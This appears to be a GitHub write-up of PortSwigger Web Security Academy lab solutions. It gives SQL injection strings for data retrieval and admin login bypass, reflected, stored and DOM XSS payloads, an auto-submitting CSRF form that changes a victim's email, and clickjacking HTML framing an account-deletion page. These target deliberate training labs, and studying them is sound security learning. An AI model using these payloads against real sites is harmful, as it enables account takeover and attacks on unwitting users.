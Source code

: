 # Burpsuite Academy

## SQLi

### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

We can exploit an SQLi in category search input: `' OR 1=1 -- `

The query will be interpreted as: `SELECT * FROM products WHERE category = '' OR 1=1 -- ' AND released = 1`

cleaning it up gives: `SELECT * FROM products WHERE category = '' OR 1=1`

### Lab: SQL injection vulnerability allowing login bypass

We can head to `/login` route, send `administrator' -- ` in the username field. We'll be logged in as administrator.

## XSS

### Lab: Reflected XSS into HTML context with nothing encoded

Performing a search in the website, we can see that our input is reflected. We try `<script>alert(1)</script>` as our search payload & we get an XSS.

### Lab: Stored XSS into HTML context with nothing encoded

We can go to a post's details page, scroll down & write a new comment. We use `<script>alert(1)</script>` for the comment body & anything for the rest of the other fields. Posting this comment creates a stored XSS.

This alert will be executed to anyone that opens the post details later on.

### Lab: DOM XSS in document.write sink using source location.search

**Description**: 
```
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
```

Examining the page's source code:

```html
<script>
    function trackSearch(query) {
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }
</script>
```

Well, that's our XSS. We can insert a `">` to break out of the `img` tag then inject our XSS payload. Full payload: `a"><script>alert(1)</script>`

## CSRF

### Lab: CSRF vulnerability with no defenses

**Description**: 
```
 This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter 
```

After logging in, we can change our own email address:

<p align="center">
  <img src="/img/img1.png"><br/>
</p>

First things first, we examine the request sent to update our email:

<p align="center">
  <img src="/img/img2.png"><br/>
</p>

Cleaning it up a little:

<p align="center">
  <img src="/img/img3.png"><br/>
</p>

For a CSRF, we can create a form with 1 input, `email`, that's sent to our lab url. Since there's no CSRF tokens, if we host this url in a website & send the url to a victim, this will successfully change their email.

Our form:

```html
<form id="f" method="POST" action="https://0ab00099034d0c18826d339700bc00bd.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@qa.team">
</form>
```

With a little JS, we can automatically submit the form:

```html
<script>
    window.f.submit();
</script>
```

We store our payload in exploit server (Or we can deploy our own), deliver the link to the victim.

## Clickjacking

### Lab: Basic clickjacking with CSRF token protection

**Description**:

```
This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: wiener:peter 
```

Simple, we'll create a website with 2 main components:
* Our fake website, the one that'll be visible to the victim.
* The target website, will be visibility hidden (using opacity), and placed on top of our fake website.

The user will see our fake page however, any clicks will be sent to the invisible iframe.

Our fake website:

<p align="center">
  <img src="/img/img4.png"><br/>
</p>

Code:

```html
<head>
	<style>
		#target_website {
			position:relative;
			width:400px;
			height:700px;
			 opacity:0.5;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
            top: 480px;
            left: 70px;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>

<body>
	<div id="decoy_website">
	<p>click</p>
	</div>
	<iframe id="target_website" src="https://0aa000c603d8752282c347e7009b00b5.web-security-academy.net/my-account">
	</iframe>
</body>
```